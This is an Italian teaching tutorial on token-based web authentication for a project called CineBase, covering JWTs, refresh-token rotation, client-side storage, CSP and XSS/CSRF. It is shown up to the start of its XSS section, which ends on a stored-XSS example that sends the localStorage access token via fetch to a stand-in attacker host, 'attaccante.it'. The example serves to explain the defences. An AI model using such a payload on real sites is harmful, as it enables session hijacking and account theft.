# Tutorial completo: autenticazione web in CineBase

## Indice

1. [Obiettivo del tutorial](#1-obiettivo-del-tutorial)
2. [Prerequisiti concettuali minimi](#2-prerequisiti-concettuali-minimi)
3. [Perché il riconoscimento utente è difficile in HTTP](#3-perché-il-riconoscimento-utente-è-difficile-in-http)
4. [Architettura CineBase: ruoli, confini, responsabilità](#4-architettura-cinebase-ruoli-confini-responsabilità)
5. [Modello token-based: access token + refresh token](#5-modello-token-based-access-token--refresh-token)
6. [Flussi principali (con diagrammi Mermaid)](#6-flussi-principali-con-diagrammi-mermaid)
7. [Interazione frontend-backend in CineBase](#7-interazione-frontend-backend-in-cinebase)
8. [Come il backend riconosce l'utente in pratica](#8-come-il-backend-riconosce-lutente-in-pratica)
9. [Sicurezza operativa del modello token](#9-sicurezza-operativa-del-modello-token)
10. [Attacchi informatici rilevanti per l'autenticazione: XSS e CSRF](#10-attacchi-informatici-rilevanti-per-lautenticazione-xss-e-csrf)
11. [Alternativa: autenticazione cookie-based](#11-alternativa-autenticazione-cookie-based)
12. [Cookie-based auth in ASP.NET Minimal API (concetto)](#12-cookie-based-auth-in-aspnet-minimal-api-concetto)
13. [Altri meccanismi di riconoscimento (panoramica)](#13-altri-meccanismi-di-riconoscimento-panoramica)
14. [Confronto sintetico tra approcci](#14-confronto-sintetico-tra-approcci)
15. [Quale meccanismo è più adatto per CineBase](#15-quale-meccanismo-è-più-adatto-per-cinebase)
16. [Checklist didattica per discussione in aula](#16-checklist-didattica-per-discussione-in-aula)
17. [Glossario essenziale](#17-glossario-essenziale)
18. [Conclusione](#18-conclusione)
19. [Appendice - Aggiornamento implementativo Aprile 2026](#19-appendice---aggiornamento-implementativo-aprile-2026)

---

## 1. Obiettivo del tutorial

Questo tutorial introduce in modo graduale il tema dell'autenticazione nelle applicazioni web moderne, con riferimento pratico all'architettura di CineBase:

- frontend web servito da `frontend/CineBase.Web` (porta tipica `5001`)
- backend API Minimal API in `backend/FilmAPI` (porta tipica `5000`)
- comunicazione client-server via HTTP

L'obiettivo didattico è mostrare:

1. perché HTTP è stateless e quale problema crea per il riconoscimento utente
2. come funziona il modello `access token + refresh token`
3. come avvengono login, richieste protette, refresh e logout
4. come client e backend collaborano nel dettaglio
5. quali alternative esistono (cookie-based authentication, basic authentication)
6. quale meccanismo è più adatto a CineBase e perché

Il testo è scritto in terza persona, con tono formale ma accessibile.

---

## 2. Prerequisiti concettuali minimi

Prima di entrare nel merito, è utile fissare alcuni termini:

- **Autenticazione**: verifica dell'identità ("chi è l'utente?")
- **Autorizzazione**: verifica dei permessi ("cosa può fare?")
- **Sessione applicativa**: continuità logica tra richieste HTTP diverse
- **RBAC** (Role-Based Access Control): autorizzazione basata su ruoli (Admin, PowerUser, User)

In CineBase, autenticazione e autorizzazione sono separate: prima si verifica l'identità, poi il ruolo decide l'accesso alle API e alle pagine.

---

## 3. Perché il riconoscimento utente è difficile in HTTP

### 3.1 HTTP è stateless

Il protocollo HTTP non mantiene memoria nativa tra richieste. Ogni richiesta arriva al server come evento indipendente.

Esempio:

1. `POST /auth/login` autenticato correttamente
2. subito dopo `GET /profilo`

Senza un meccanismo di stato, la seconda richiesta non contiene automaticamente il "ricordo" del login precedente.

### 3.2 Conseguenza pratica

Serve un **contenitore di identità** che viaggi a ogni richiesta, ad esempio:

- un token nell'header `Authorization`
- oppure un cookie di sessione inviato automaticamente dal browser

Senza questo elemento, il backend non può distinguere un utente autenticato da un utente anonimo.

---

## 4. Architettura CineBase: ruoli, confini, responsabilità

### 4.1 Componenti principali

- **Browser**: esegue HTML/CSS/JS
- **Frontend server** (`CineBase.Web`): serve file statici e pagine
- **Backend API** (`FilmAPI`): espone endpoint CRUD e auth
- **Database**: conserva utenti, ruoli, refresh token e dati applicativi

### 4.2 Flusso generale

1. Il browser carica le pagine dal frontend server.
2. Il codice JavaScript nel browser chiama le API del backend.
3. Le API protette richiedono credenziali (token/cookie).
4. Il backend valida identità e ruolo, poi risponde.

---

## 5. Modello token-based: access token + refresh token

### 5.1 Idea di base

Nel modello adottato in CineBase:

- l'utente effettua il login con email/password
- il backend rilascia:
  - **access token** (breve durata, es. 15 minuti)
  - **refresh token** (durata maggiore, es. 7 giorni)

### 5.2 Perché due token

- L'access token breve riduce l'impatto in caso di furto.
- Il refresh token evita di chiedere login continuo all'utente.
- La rotazione del refresh token aumenta la sicurezza nel tempo.

### 5.3 Contenuto tipico dei token

**Access token (di solito JWT):**

- identificativo utente (`sub` o `userId`)
- email
- ruolo (`Admin`, `PowerUser`, `User`)
- scadenza (`exp`)
- issuer/audience

**Refresh token:**

- stringa casuale ad alta entropia
- riferimento server-side nel database
- metadati di scadenza/revoca

### 5.4 Come è strutturato un JWT

Il JSON Web Token (JWT) è lo standard de facto per gli access token nelle architetture moderne. È definito nella RFC 7519 ed è composto da tre parti separate dal carattere `.`:

```
header.payload.signature
```

Ciascuna parte è codificata in **Base64URL** (non cifrata, solo codificata), tranne la firma che è calcolata crittograficamente.

#### 5.4.1 Header

L'header dichiara il tipo di token e l'algoritmo di firma:

```json
{
  "alg": "HS256",
  "typ": "JWT"
}
```

- `alg`: algoritmo usato per la firma (`HS256` = HMAC-SHA256, oppure `RS256` = RSA)
- `typ`: tipo di token, sempre `JWT`

#### 5.4.2 Payload (claim)

Il payload contiene i **claim**, ovvero le informazioni sull'utente e sul token stesso. Esistono claim standard (registrati nella RFC) e claim personalizzati:

```json
{
  "sub": "42",
  "email": "mario.rossi@cinebase.it",
  "role": "PowerUser",
  "iss": "CineBaseAPI",
  "aud": "CineBaseWeb",
  "iat": 1711900000,
  "exp": 1711900900
}
```

| Claim | Significato |
|---|---|
| `sub` | Subject: identificativo univoco dell'utente |
| `iss` | Issuer: chi ha emesso il token |
| `aud` | Audience: destinatario atteso del token |
| `iat` | Issued At: timestamp di emissione (Unix) |
| `exp` | Expiration: timestamp di scadenza (Unix) |
| `email`, `role` | Claim personalizzati specifici dell'applicazione |

> **Attenzione**: il payload è leggibile da chiunque (è solo Base64URL). Non inserire mai dati sensibili come password o dati di pagamento nel payload JWT.

#### 5.4.3 Firma

La firma garantisce l'integrità del token: se qualcuno modifica header o payload, la firma non coincide più e il backend rifiuta il token.

Con algoritmo HS256 (chiave simmetrica):

```
HMACSHA256(
  base64url(header) + "." + base64url(payload),
  JWT_SECRET
)
```

Con RS256 (coppia di chiavi asimmetrica), il backend firma con la chiave privata e i client verificano con la chiave pubblica.

#### 5.4.4 Esempio visuale della struttura

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9    <- header
.
eyJzdWIiOiI0MiIsImVtYWlsIjoibWFyaW8ucm9zc2lAY2luZWJhc2UuaXQiLCJyb2xlIjoiUG93ZXJVc2VyIn0
                                          <- payload
.
SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c
                                          <- firma
```

Per ispezionare e decodificare un JWT in modo interattivo, si consiglia il sito ufficiale:

- **https://jwt.io/** — decodifica e verifica JWT in tempo reale, mostra header, payload e firma

#### 5.4.5 Diagramma della struttura JWT


```mermaid
graph LR
    T["JWT completo"] --> H["Header\nalg + typ\n(Base64URL)"]
    T --> P["Payload\nclaim utente\n(Base64URL)"]
    T --> S["Firma\nHMAC o RSA\n(non decodificabile senza chiave)"]

    style H fill:#3b82f6,color:#fff
    style P fill:#10b981,color:#fff
    style S fill:#f59e0b,color:#fff
```

### 5.5 Come viene generato il JWT in ASP.NET Minimal API

In ASP.NET Core la generazione di un JWT avviene tramite la classe `JwtSecurityTokenHandler` del pacchetto `System.IdentityModel.Tokens.Jwt`, incluso in `Microsoft.AspNetCore.Authentication.JwtBearer`.

#### 5.5.1 Configurazione in Program.cs

```csharp
using Microsoft.AspNetCore.Authentication.JwtBearer;
using Microsoft.IdentityModel.Tokens;
using System.Text;

var builder = WebApplication.CreateBuilder(args);

var jwtSecret = Environment.GetEnvironmentVariable("JWT_SECRET")!;
var jwtIssuer = Environment.GetEnvironmentVariable("JWT_ISSUER")!;
var jwtAudience = Environment.GetEnvironmentVariable("JWT_AUDIENCE")!;

builder.Services
    .AddAuthentication(JwtBearerDefaults.AuthenticationScheme)
    .AddJwtBearer(options =>
    {
        options.TokenValidationParameters = new TokenValidationParameters
        {
            ValidateIssuer = true,
            ValidateAudience = true,
            ValidateLifetime = true,
            ValidateIssuerSigningKey = true,
            ValidIssuer = jwtIssuer,
            ValidAudience = jwtAudience,
            IssuerSigningKey = new SymmetricSecurityKey(
                Encoding.UTF8.GetBytes(jwtSecret)),
            ClockSkew = TimeSpan.Zero  // nessuna tolleranza di scadenza
        };
    });

builder.Services.AddAuthorization();
```

#### 5.5.2 Generazione dell'access token

```csharp
using System.IdentityModel.Tokens.Jwt;
using System.Security.Claims;
using Microsoft.IdentityModel.Tokens;
using System.Text;

string GenerateAccessToken(User user)
{
    var key = new SymmetricSecurityKey(
        Encoding.UTF8.GetBytes(Environment.GetEnvironmentVariable("JWT_SECRET")!));

    var credentials = new SigningCredentials(key, SecurityAlgorithms.HmacSha256);

    var claims = new[]
    {
        new Claim(JwtRegisteredClaimNames.Sub, user.Id.ToString()),
        new Claim(JwtRegisteredClaimNames.Email, user.Email),
        new Claim(ClaimTypes.Role, user.Ruolo.ToString()),
        new Claim(JwtRegisteredClaimNames.Jti, Guid.NewGuid().ToString())
    };

    var token = new JwtSecurityToken(
        issuer: Environment.GetEnvironmentVariable("JWT_ISSUER"),
        audience: Environment.GetEnvironmentVariable("JWT_AUDIENCE"),
        claims: claims,
        expires: DateTime.UtcNow.AddMinutes(15),
        signingCredentials: credentials
    );

    return new JwtSecurityTokenHandler().WriteToken(token);
}
```

#### 5.5.3 Generazione del refresh token

Il refresh token non è un JWT: è una stringa casuale ad alta entropia, persistita nel database. Non contiene informazioni leggibili e non è firmato crittograficamente — la sua validità dipende interamente dalla presenza del record nel database e dai metadati di scadenza/revoca.

```csharp
string GenerateRefreshToken()
{
    // 32 byte casuali => 256 bit di entropia
    var randomBytes = new byte[32];
    using var rng = System.Security.Cryptography.RandomNumberGenerator.Create();
    rng.GetBytes(randomBytes);
    return Convert.ToBase64String(randomBytes);
}
```

Il token generato viene poi salvato nel database insieme a `UserId`, `ExpiresAt`, `CreatedAt` e `RevokedAt` (inizialmente null).

#### 5.5.4 Diagramma: generazione e validazione del JWT


```mermaid
sequenceDiagram
    participant AUTH as AuthService
    participant DB as Database
    participant MW as Middleware JWT

    note over AUTH: Al momento del login
    AUTH->>AUTH: Costruisce array di claim
    AUTH->>AUTH: Crea SymmetricSecurityKey da JWT_SECRET
    AUTH->>AUTH: Firma con HMAC-SHA256
    AUTH->>AUTH: Serializza in stringa header.payload.firma
    AUTH->>DB: Salva refresh token con scadenza
    AUTH-->>AUTH: Restituisce accessToken e refreshToken

    note over MW: Ad ogni richiesta protetta
    MW->>MW: Estrae Bearer token dall'header Authorization
    MW->>MW: Decodifica header e payload in Base64URL
    MW->>MW: Ricalcola firma con JWT_SECRET locale
    MW->>MW: Confronta firma ricalcolata con firma nel token
    MW->>MW: Verifica issuer, audience e scadenza
    MW-->>MW: Popola HttpContext.User con i claim
```

#### 5.5.5 Diagramma: ciclo di vita del refresh token


```mermaid
stateDiagram-v2
    [*] --> Attivo: Login o Refresh riuscito\n(salvato in DB)
    Attivo --> Revocato: Logout esplicito\no Refresh con rotazione
    Attivo --> Scaduto: ExpiresAt superato
    Revocato --> [*]: Non più utilizzabile
    Scaduto --> [*]: Non più utilizzabile
```

### 5.6 Gestione dei token lato client in CineBase

Una volta che il backend ha emesso access token e refresh token, il frontend JavaScript deve decidere **dove conservarli** nel browser. Questa scelta ha implicazioni significative sulla sicurezza.

#### 5.6.1 Le opzioni disponibili nel browser

Il browser mette a disposizione tre meccanismi principali di storage lato client:

| Meccanismo | Accessibile da JS | Inviato automaticamente | Persistenza | Esposto a XSS |
|---|---|---|---|---|
| `localStorage` | Sì | No | Permanente (fino a cancellazione esplicita) | Sì |
| `sessionStorage` | Sì | No | Solo per la sessione del tab corrente | Sì |
| Cookie `HttpOnly` | No | Sì (stesso dominio) | Configurabile | No |
| Cookie non-HttpOnly | Sì | Sì (stesso dominio) | Configurabile | Sì |

#### 5.6.2 Analisi comparativa

**`localStorage`**

- i token sopravvivono alla chiusura del tab e del browser
- accessibile da qualsiasi script JavaScript sulla pagina: se la pagina subisce un attacco XSS, l'attaccante può leggere i token
- non richiede nessuna logica di invio: il frontend deve allegare il token manualmente nell'header `Authorization`

**`sessionStorage`**

- i token scompaiono alla chiusura del tab
- riduce la finestra di esposizione rispetto a `localStorage`, ma rimane accessibile da JavaScript e quindi vulnerabile a XSS
- ogni tab è isolato: aprire un nuovo tab richiede un nuovo login

**Cookie `HttpOnly`**

- il token non è mai leggibile da JavaScript: elimina il vettore di attacco XSS per il furto del token
- il browser lo invia automaticamente a ogni richiesta verso il dominio corretto
- richiede protezione CSRF (l'invio automatico è anche il suo punto debole)
- funziona bene quando frontend e backend condividono lo stesso dominio

#### 5.6.3 Scelta adottata in CineBase

CineBase adotta l'architettura **frontend separato** (porta 5001) + **backend API** (porta 5000), con comunicazione cross-origin via `fetch` e header `Authorization: Bearer`.

In questo contesto la scelta naturale è `localStorage`:

- i cookie `HttpOnly` in cross-origin richiedono configurazioni CORS molto precise (`credentials: include`, `SameSite=None; Secure`) e sono più complessi da gestire
- il modello fetch + header `Authorization` è il pattern standard per SPA e architetture API-first
- la mitigazione principale per XSS è applicata sul codice (sanitizzazione, CSP), non sullo storage

> **Nota didattica**: per il contesto didattico di CineBase si privilegia la chiarezza dell'approccio `localStorage`. In un contesto di produzione con requisiti di sicurezza elevati si adotta uno schema più sofisticato, descritto nella sezione seguente.

#### 5.6.3.1 Schema production-grade: access token in memoria + refresh token in cookie HttpOnly

Questo schema è adottato da molte applicazioni web moderne (es. piattaforme bancarie, SaaS enterprise) e risolve il problema principale di `localStorage`: l'esposizione dei token a eventuali attacchi XSS.

**Principio fondamentale**

- l'**access token** non viene mai scritto in `localStorage` o `sessionStorage`; viene tenuto esclusivamente in una **variabile JavaScript in memoria** (es. una variabile di modulo)
- il **refresh token** viene scritto in un **cookie `HttpOnly; Secure; SameSite=Strict`** dal backend al momento del login

Il risultato è che nessun script JavaScript — nemmeno uno malevolo iniettato tramite XSS — può leggere i token, perché:
- l'access token in memoria sparisce con il ricaricamento della pagina e non è accessibile al DOM
- il refresh token in cookie `HttpOnly` non è mai accessibile via `document.cookie`

**Come funziona in pratica**

Al login, il backend restituisce:
- l'access token nel **corpo della risposta JSON** (il frontend lo legge e lo salva in una variabile, non in storage)
- il refresh token impostato direttamente come cookie `HttpOnly` tramite l'header `Set-Cookie` della risposta (il frontend non deve fare nulla: il browser lo gestisce automaticamente)

```
HTTP/1.1 200 OK
Set-Cookie: refresh_token=<valore>; HttpOnly; Secure; SameSite=Strict; Path=/auth/refresh
Content-Type: application/json

{ "accessToken": "eyJ...", "user": { ... } }
```

Il frontend salva `accessToken` in una variabile di modulo:

```javascript
// auth.js — schema production-grade
let _accessToken = null;  // mai in localStorage

function saveAccessToken(token) {
    _accessToken = token;
}

function getAccessToken() {
    return _accessToken;
}

function clearAccessToken() {
    _accessToken = null;
}
// Il refresh token non viene mai toccato dal JS:
// è nel cookie HttpOnly e il browser lo invia automaticamente
// a POST /auth/refresh senza che il codice debba fare nulla
```

**Cosa succede al ricaricamento della pagina**

Quando l'utente ricarica la pagina, la variabile `_accessToken` viene persa (la memoria JavaScript viene reinizializzata). L'applicazione deve quindi:

1. rilevare che `_accessToken` è null all'avvio
2. chiamare silenziosamente `POST /auth/refresh` (il browser invia automaticamente il cookie `HttpOnly` con il refresh token)
3. se il refresh ha successo, ottenere un nuovo access token e salvarlo in memoria
4. procedere normalmente; l'utente non percepisce interruzione

Questo processo è detto **"silent refresh al boot"** ed è trasparente all'utente.


```mermaid
sequenceDiagram
    participant B as Browser
    participant MEM as Memoria JS
    participant API as Backend

    note over B,MEM: Utente ricarica la pagina
    MEM->>MEM: _accessToken è null
    B->>API: POST /auth/refresh (cookie HttpOnly inviato automaticamente)
    API->>API: Valida refresh token da cookie
    alt Refresh valido
        API-->>B: 200 nuovo accessToken nel body
        API-->>B: Set-Cookie nuovo refresh token HttpOnly
        B->>MEM: _accessToken = nuovo token
        note over B: Utente rimane autenticato senza accorgersi di nulla
    else Refresh scaduto o revocato
        API-->>B: 401 Unauthorized
        B->>B: Redirect a /login.html
    end
```

**Configurazione backend per emettere il cookie HttpOnly**

In ASP.NET Minimal API il backend deve impostare il cookie direttamente sull'`HttpContext`:

```csharp
app.MapPost("/auth/login", async (LoginRequestDTO dto, IAuthService auth, HttpContext ctx) =>
{
    var result = await auth.LoginAsync(dto);
    if (result is null) return Results.Unauthorized();

    // Imposta refresh token in cookie HttpOnly
    ctx.Response.Cookies.Append("refresh_token", result.RefreshToken, new CookieOptions
    {
        HttpOnly = true,
        Secure = true,
        SameSite = SameSiteMode.Strict,
        Path = "/auth/refresh",  // cookie inviato solo a questo path
        Expires = DateTimeOffset.UtcNow.AddDays(7)
    });

    // Restituisce solo l'access token nel body
    return Results.Ok(new
    {
        accessToken = result.AccessToken,
        user = result.User
    });
});

app.MapPost("/auth/refresh", async (IAuthService auth, HttpContext ctx) =>
{
    // Legge il refresh token dal cookie, non dal body
    var refreshToken = ctx.Request.Cookies["refresh_token"];
    if (string.IsNullOrEmpty(refreshToken)) return Results.Unauthorized();

    var result = await auth.RefreshAsync(refreshToken);
    if (result is null) return Results.Unauthorized();

    // Rotazione: nuovo cookie con il nuovo refresh token
    ctx.Response.Cookies.Append("refresh_token", result.RefreshToken, new CookieOptions
    {
        HttpOnly = true,
        Secure = true,
        SameSite = SameSiteMode.Strict,
        Path = "/auth/refresh",
        Expires = DateTimeOffset.UtcNow.AddDays(7)
    });

    return Results.Ok(new { accessToken = result.AccessToken });
});
```

**Vantaggi e compromessi rispetto a localStorage**

| Aspetto | localStorage (CineBase didattico) | Memoria + cookie HttpOnly (production) |
|---|---|---|
| Resistenza a XSS | Bassa (token leggibili da JS) | Alta (token non leggibili da JS) |
| Resistenza a CSRF | Alta (no invio automatico) | Richiede `SameSite=Strict` o token CSRF |
| Sopravvivenza al reload della pagina | Sì | Solo tramite silent refresh |
| Complessità implementativa | Bassa | Media-Alta |
| Necessità di HTTPS | Raccomandata | Obbligatoria (`Secure` flag) |
| Adatto a CineBase didattico | Sì | Eccessivamente complesso per lo scopo |
| Adatto a produzione reale | Accettabile con CSP rigorosa (vedi nota) | Consigliato |

> **Che cosa si intende per CSP rigorosa**: la **Content Security Policy** (CSP) è un meccanismo di sicurezza dichiarato dal server tramite l'header HTTP `Content-Security-Policy`. Istruisce il browser su quali origini sono autorizzate a caricare script, stili, immagini e altre risorse. Una CSP rigorosa riduce drasticamente la superficie di attacco XSS perché impedisce al browser di eseguire script non approvati, anche se un attaccante riesce a iniettarne uno nella pagina.
>
> Un esempio di policy restrittiva:
>
> ```
> Content-Security-Policy:
>   default-src 'self';
>   script-src 'self';
>   style-src 'self';
>   img-src 'self' data:;
>   connect-src 'self' https://api.cinebase.it;
>   object-src 'none';
>   base-uri 'self';
>   frame-ancestors 'none'
> ```
>
> Con questa policy:
> - solo gli script serviti dallo stesso dominio (`'self'`) possono essere eseguiti
> - script inline (`<script>alert(1)</script>`) e `eval()` sono bloccati per impostazione predefinita
> - un attaccante che riesce a iniettare HTML malevolo nella pagina non può far eseguire codice arbitrario al browser, perché il browser lo rifiuta
>
> Questo non elimina completamente il rischio XSS, ma riduce fortemente le probabilità che un'iniezione riesca a leggere dati da `localStorage`. In assenza di CSP, anche un singolo punto di iniezione XSS può compromettere tutti i token presenti nel browser. Con CSP rigorosa, l'attaccante deve aggirare anche le restrizioni del browser, rendendo l'exploit molto più difficile.
>
> Detto questo, anche con una CSP ben configurata, l'approccio con access token in memoria e refresh token in cookie `HttpOnly` rimane più robusto, perché non dipende dalla corretta configurazione della policy ma rimuove strutturalmente la possibilità di leggere i token tramite JavaScript.

#### 5.6.4 Come i token vengono gestiti in `auth.js`

Il modulo `auth.js` del frontend CineBase gestisce il ciclo di vita dei token tramite le seguenti funzioni:

```javascript
// Salvataggio dopo login o refresh
function saveTokens(accessToken, refreshToken) {
    localStorage.setItem('cinebase_access_token', accessToken);
    localStorage.setItem('cinebase_refresh_token', refreshToken);
}

// Lettura per costruire l'header Authorization
function getAccessToken() {
    return localStorage.getItem('cinebase_access_token');
}

function getRefreshToken() {
    return localStorage.getItem('cinebase_refresh_token');
}

// Pulizia al logout o quando i token non sono più validi
function clearTokens() {
    localStorage.removeItem('cinebase_access_token');
    localStorage.removeItem('cinebase_refresh_token');
}

// Verifica scadenza senza chiamata al server
// Il payload JWT è Base64URL: decodificabile lato client
function isAccessTokenExpired() {
    const token = getAccessToken();
    if (!token) return true;

    const payload = JSON.parse(atob(token.split('.')[1]));
    // exp è in secondi Unix, Date.now() in millisecondi
    return Date.now() >= payload.exp * 1000;
}

// Recupera le informazioni utente dal payload del token
function getCurrentUser() {
    const token = getAccessToken();
    if (!token) return null;

    const payload = JSON.parse(atob(token.split('.')[1]));
    return {
        id: payload.sub,
        email: payload.email,
        ruolo: payload.role
    };
}
```

> **Attenzione**: la decodifica del payload via `atob` legge le informazioni ma **non verifica la firma**. La verifica crittografica avviene esclusivamente sul backend. Il frontend usa i claim solo per adattare la UI (es. mostrare/nascondere elementi in base al ruolo), mai per decisioni di sicurezza.

#### 5.6.5 Diagramma: flusso di lettura e uso del token in ogni richiesta


```mermaid
flowchart TD
    A([Pagina JS esegue chiamata API]) --> B{Access token\npresente in\nlocalStorage?}
    B -- No --> C[Redirect a /login.html]
    B -- Sì --> D{Token\nscaduto?}
    D -- No --> E[Aggiunge header\nAuthorization: Bearer token]
    D -- Sì --> F[Chiama POST /auth/refresh\ncon refresh token]
    F --> G{Refresh\nriuscito?}
    G -- Sì --> H[Salva nuovi token\nin localStorage]
    H --> E
    G -- No --> I[clearTokens]
    I --> C
    E --> J[Invia richiesta al backend]
    J --> K{Risposta\n401?}
    K -- No --> L([Elabora risposta])
    K -- Sì --> F
```

#### 5.6.6 Confronto visuale: dove vivono i token nei tre approcci


```mermaid
graph TD
    subgraph JWT_LS["JWT in localStorage (CineBase)"]
        LS_AT["Access Token\nlocalStorage\nleggibile da JS"]
        LS_RT["Refresh Token\nlocalStorage\nleggibile da JS"]
    end

    subgraph COOKIE_HO["Cookie HttpOnly (alternativa sicura)"]
        CO_AT["Access Token\ncookie HttpOnly\nnon leggibile da JS"]
        CO_RT["Refresh Token\ncookie HttpOnly\nnon leggibile da JS"]
    end

    subgraph SESSION["Session server-side"]
        SE_ID["Session ID\ncookie\n(solo puntatore)"]
        SE_DATA["Dati sessione\nnel server\n(Redis/DB)"]
        SE_ID --> SE_DATA
    end

    style LS_AT fill:#f59e0b,color:#000
    style LS_RT fill:#f59e0b,color:#000
    style CO_AT fill:#10b981,color:#fff
    style CO_RT fill:#10b981,color:#fff
    style SE_ID fill:#3b82f6,color:#fff
    style SE_DATA fill:#6366f1,color:#fff
```

### 5.7 Risorse utili per approfondire

| Risorsa | Contenuto |
|---|---|
| [https://jwt.io/](https://jwt.io/) | Decodifica interattiva JWT, librerie per tutti i linguaggi |
| [https://jwt.io/introduction](https://jwt.io/introduction) | Introduzione ufficiale al formato JWT |
| [RFC 7519](https://datatracker.ietf.org/doc/html/rfc7519) | Specifica tecnica completa del JWT |
| [RFC 6750](https://datatracker.ietf.org/doc/html/rfc6750) | Bearer Token Usage in HTTP |
| [OWASP JWT Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/JSON_Web_Token_for_Java_Cheat_Sheet.html) | Buone pratiche di sicurezza per JWT |
| [Documentazione Microsoft — AddJwtBearer](https://learn.microsoft.com/it-it/aspnet/core/security/authentication/jwt-authn) | Guida ufficiale ASP.NET Core per JWT |
| [OWASP — Token Storage](https://cheatsheetseries.owasp.org/cheatsheets/HTML5_Security_Cheat_Sheet.html#local-storage) | Raccomandazioni OWASP su localStorage e sicurezza |

---

## 6. Flussi principali (con diagrammi Mermaid)

### 6.1 Login


```mermaid
sequenceDiagram
    actor U as Utente
    participant B as Browser (Frontend JS)
    participant API as Backend FilmAPI
    participant DB as Database

    U->>B: Inserisce email/password
    B->>API: POST /auth/login (credentials)
    API->>DB: Verifica utente + hash password
    DB-->>API: Esito verifica

    alt Credenziali valide
        API->>DB: Salva refresh token (attivo)
        API-->>B: 200 {accessToken, refreshToken, userInfo}
        B->>B: Salva token lato client
    else Credenziali non valide
        API-->>B: 401 Unauthorized
    end
```

### 6.2 Chiamata API protetta con access token valido


```mermaid
sequenceDiagram
    participant B as Browser (Frontend JS)
    participant API as Backend FilmAPI

    B->>API: GET /profilo + Authorization: Bearer accessToken
    API->>API: Valida firma, scadenza, issuer, audience
    API->>API: Estrae userId e ruolo dai claim
    API-->>B: 200 Profilo utente
```

### 6.3 Access token scaduto + refresh automatico


```mermaid
sequenceDiagram
    participant B as Browser (Frontend JS)
    participant API as Backend FilmAPI
    participant DB as Database

    B->>API: GET /profilo + accessToken scaduto
    API-->>B: 401 Unauthorized

    B->>API: POST /auth/refresh {refreshToken}
    API->>DB: Cerca refresh token, verifica scadenza/revoca

    alt Refresh valido
        API->>DB: Revoca vecchio refresh + salva nuovo refresh
        API-->>B: 200 {newAccessToken, newRefreshToken}
        B->>B: Aggiorna token locali
        B->>API: Retry GET /profilo con newAccessToken
        API-->>B: 200 Profilo utente
    else Refresh non valido
        API-->>B: 401 Unauthorized
        B->>B: Esegue logout locale + redirect login
    end
```

### 6.4 Logout


```mermaid
sequenceDiagram
    actor U as Utente
    participant B as Browser
    participant API as Backend FilmAPI
    participant DB as Database

    U->>B: Clic su Logout
    B->>API: POST /auth/logout {refreshToken}
    API->>DB: Revoca refresh token
    API-->>B: 204 No Content
    B->>B: Cancella token locali
    B->>B: Redirect a /login.html o /index.html
```

### 6.5 Accesso negato per ruolo insufficiente (RBAC)


```mermaid
sequenceDiagram
    participant B as Browser
    participant API as Backend FilmAPI

    B->>API: POST /cinemas (token ruolo PowerUser)
    API->>API: Validazione token OK
    API->>API: Policy AdminOnly fallisce
    API-->>B: 403 Forbidden
    B->>B: Mostra messaggio e/o redirect pagina consentita
```

---

## 7. Interazione frontend-backend in CineBase

### 7.1 Responsabilità del frontend

Il frontend deve:

1. gestire login e registrazione
2. allegare l'access token nelle richieste protette
3. intercettare `401` e tentare refresh
4. aggiornare la UI in base al ruolo
5. applicare route guard lato pagina

### 7.2 Responsabilità del backend

Il backend deve:

1. validare le credenziali in modo sicuro (password hash)
2. emettere e validare token
3. revocare e ruotare refresh token
4. applicare policy di autorizzazione coerenti
5. restituire codici HTTP semantici (`401`, `403`)

### 7.3 Codici di stato chiave

- `200 OK`: richiesta valida
- `201 Created`: risorsa creata
- `204 No Content`: operazione riuscita senza body (es. logout)
- `401 Unauthorized`: autenticazione assente/errata/scaduta
- `403 Forbidden`: autenticato ma senza permessi

---

## 8. Come il backend riconosce l'utente in pratica

Quando arriva una richiesta con header `Authorization: Bearer <token>`:

1. il middleware JWT verifica firma e scadenza
2. se valido, crea un principal con claim utente
3. endpoint e policy leggono claim e ruolo
4. la business logic usa `userId` per operazioni owner-based (es. prenotazioni proprie)

In sintesi: il backend non mantiene una sessione server-side classica per ogni access token; si affida alle informazioni firmate nel token e, per il refresh, a record persistiti nel database.

---

## 9. Sicurezza operativa del modello token

### 9.1 Buone pratiche essenziali

- usare HTTPS in ogni ambiente reale
- usare segreti robusti per la firma JWT (`JWT_SECRET` lungo e casuale)
- limitare la durata dell'access token
- ruotare il refresh token a ogni rinnovo
- prevedere revoca esplicita su logout
- registrare eventi di sicurezza (login falliti, refresh anomali)

### 9.2 Rischi tipici

- **Furto token via XSS** se il token è in `localStorage`
- **Replay** se il refresh token non viene ruotato
- **Permessi incoerenti** se le policy non sono allineate al RBAC documentato

### 9.3 Mitigazioni didatticamente importanti

- sanitizzazione input e CSP per ridurre XSS
- riduzione superficie endpoint anonimi
- controllo centralizzato policy e test automatici RBAC

---

## 10. Attacchi informatici rilevanti per l'autenticazione: XSS e CSRF

Prima di esaminare le alternative al modello JWT con `localStorage`, è fondamentale comprendere i due attacchi che motivano le scelte architetturali discusse: **XSS** (Cross-Site Scripting) e **CSRF** (Cross-Site Request Forgery). Sono attacchi concettualmente opposti e richiedono contromisure diverse.

---

### 10.1 XSS — Cross-Site Scripting

#### 10.1.1 Definizione

XSS è un attacco in cui un aggressore riesce a **far eseguire codice JavaScript arbitrario nel browser di un utente legittimo**, sfruttando un punto dell'applicazione web che non sanifica correttamente l'input/output.

Il codice malevolo viene eseguito nello stesso contesto di sicurezza della pagina legittima: ha accesso a `localStorage`, `sessionStorage`, `document.cookie` (se non `HttpOnly`), e può fare richieste HTTP come se fosse il codice dell'applicazione.

#### 10.1.2 Tipi principali di XSS

| Tipo | Descrizione | Esempio |
|---|---|---|
| **Reflected XSS** | Il payload malevolo è nella URL e viene riflesso immediatamente nella risposta del server | `https://sito.it/cerca?q=<script>alert(1)</script>` |
| **Stored XSS** | Il payload viene salvato nel database e mostrato ad altri utenti | Commento con `<script>` salvato e visualizzato nel feed |
| **DOM-based XSS** | Il payload manipola direttamente il DOM tramite JavaScript lato client, senza passare dal server | `location.hash` usato come innerHTML senza sanificazione |

#### 10.1.3 Esempio concreto nel contesto CineBase

Si immagini che un campo del form "Titolo film" non venga sanificato correttamente prima di essere salvato nel database e visualizzato nella pagina film. Un attaccante con ruolo PowerUser potrebbe inserire come titolo:

```html
<script>
  fetch('https://attaccante.it/steal?token=' + localStorage.getItem('cinebase_access_token'));
</script>
```

Quando un admin visualizza la lista film, il browser esegue lo script nel contesto della pagina CineBase. Il token viene inviato silenziosamente al server dell'attaccante.

